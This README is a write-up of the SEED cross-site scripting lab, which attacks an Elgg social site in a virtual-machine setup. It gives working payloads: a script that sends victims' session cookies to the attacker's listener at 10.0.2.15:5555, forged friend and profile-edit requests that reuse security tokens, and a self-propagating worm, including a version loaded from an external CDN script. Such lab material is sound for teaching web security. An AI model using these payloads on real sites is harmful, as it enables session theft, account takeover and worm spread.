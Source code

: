 # cross-script-attack

Attacker 10.0.2.15

Server 10.0.2.4

Edit the DNS records in /etc/hosts on both the attacker and the server:

10.0.2.4       www.xsslabelgg.com

# Task 1

Task 1.1

Log in with account alice and password seedalice, then edit Brief description module in Profile as

<script>
  alert("XSS");
</script>
And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:

![alt-text](https://github.com/M-Kamran-Arshad/cross-script-attack/blob/main/1.png)

# Task 2

Edit the Brief description module and save:

  <script>
	  alert(document.cookie);
	</script>
When accessing the profile page, it will show the cookie of the log-in user. When Boby opens the page, it will be

![alt-text](https://github.com/M-Kamran-Arshad/cross-script-attack/blob/main/2.png)

For Alice herself:

![alt-text](https://github.com/M-Kamran-Arshad/cross-script-attack/blob/main/3.png)

# Task 3

Edit the Brief description as:

<script>
  document.write(
    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
  );
</script>

It will send an HTTP GET request to the port 5555 on the attacker with document.cookie whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

nc -l 5555 -v
Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM 10.0.2.4, then it will appear on the attacker:

![alt-text](https://github.com/M-Kamran-Arshad/cross-script-attack/blob/main/4.png)

# Task 4

Try to log in as alice and add samy as a friend, during the process, network tool captures the request:

HTTP header:

Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
So construct the payload that forges the user's friend request as:

  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
Log in with username samy and password seedsamy.

Add the code above in Profile -> About me by edit html mode.

Now on the VM 10.0.2.4, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.

#Task 5

When editing a user's (Alice) own profile legally, the network tool captures such an HTTP POST request:

__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Then edit Samy's profile and figure out his guid as 47

![alt-text](https://github.com/M-Kamran-Arshad/cross-script-attack/blob/main/5.png)

Now we want to modify the about me module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:

<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:


![alt-text](https://github.com/M-Kamran-Arshad/cross-script-attack/blob/main/6.png)

# Task 6

To make the code in Task 5 self-propogating:

### DOM Approach Do some subtle modification based on the code in Task 5:

``` <script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script> ```
Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.

# Link Approach

Write the JavaScript file xssworm.js and store it in the external link https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js

Add it into Samy's profile:

  type="text/javascript"
  src="https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js">
</script>`
